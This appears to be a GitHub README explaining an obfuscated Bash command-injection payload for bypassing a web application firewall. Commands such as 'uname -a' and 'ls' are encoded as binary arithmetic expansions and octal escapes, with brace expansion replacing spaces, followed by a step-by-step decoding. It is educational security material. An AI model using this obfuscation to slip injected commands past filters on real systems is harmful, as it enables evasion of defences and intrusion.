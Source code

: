 # Bash-Command-Injection
Bash Command Injection using binary / Injeção de Comando no Bash utilizando binários

<img src="bash command injection waf bypass.png" align="center">

> O que eu fiz, utilizando a vírgula `,` do **Brace Expansion** como um espaço. <br>
> O comando é `uname -a`. (Ignore o `$` antes do `${!##\-}`, é só pelo Syntax Highlight)
```console
$ ${!##\-}<<<{\$\'\\$(($((1<<1))#10100101))\\$(($((1<<1))#10011100))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10011011))\\$(($((1<<1))#10010001))\',\$\'\\$(($((1<<1))#110111))\\$(($((1<<1))#10001101))\'}
```

> Explicação do por que de usar o **Brace Expansion**.
```console
$ {primeiro,segundo}
primeiro segundo
```

<br>

<br>

> Explicação em inglês:

```bash
### idea: @sirifu4k1

# My final payload:
# ${0##\-}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
# Let's understand what the hell is happening here.

## 1.1: ${0##\-}
# ${} is a parameter expansion; "$0" == is the first parameter, which is the script itself.
# Since we're "executing" "$0" straight on the shell, the program that is getting executed is bash
# But on my shell, bash had a little "-" dash sign next to the "b" letter of bash, so I removed it
# using parameter expansion (${0##\-} == removes the dash "-" from "-bash", and we're left with "bash")

## 1.2: <<<
# A "Here String" is used for input redirection from text or a variable.
# For example: (counting the words of a given file called about.txt)
$ wc -l <<< about.txt
1 # (output as an example)

## 1.3: $\' ... \'
# First of all, "$'Something\nSomething-else'" causes escape sequences to be interpreted.
# So we can call an octal to be interpreted to text, just like so (154 in octal == l; 163 in octal == s):
$'\154\163'

# Another example:
$'\151\144' # 151 == i; 144 == d (id gets interpreted as a command)

## 1.4: \\$(( $(( 1 << 1 ))#10011010)) \\$(( $(( 1 << 1))#10100011 ))
# $(()) == POSIX arithmetic expansion
# Note: (man bash)
# Words of the form $'string' are treated specially. The word expands to
# string, with backslash-escaped characters replaced as specified by the ANSI C
# standard.

# Note:
# The "\\" (double backslash) characters are necessary in order to force the shell to pass
# a "\$" (single backslash, dollar sign) to the arithmetic expansion.

### 2.4: $(( $((1<<1))#10011010 ))
# 1<<1 == 2
# Enclosing two arithmetic expansion inside of each other, so that 2#10011010 (octal "154" to binary is "10011010") is equal to 154 (octal)
# Text to octal: "http://www.unit-conversion.info/texttools/octal/"
# Decimal to binary: "https://www.rapidtables.com/convert/number/decimal-to-binary.html"
# 167 150 157 :: 10100111 = w; 10010110 = h; 10011101 = o

### 3.4: $(( $((1<<1))#10100011 ))
# Is exatcly the same concept as I mentioned previously (at 2.4), and we're left with 163 (octal)

# Conclusion:
# This whole mess will give us the result $'\154\163', which is "ls"

# Image explanation, by @sirifu4k1
# https://pbs.twimg.com/media/FqJd-irakAEBPh_.jpg
```
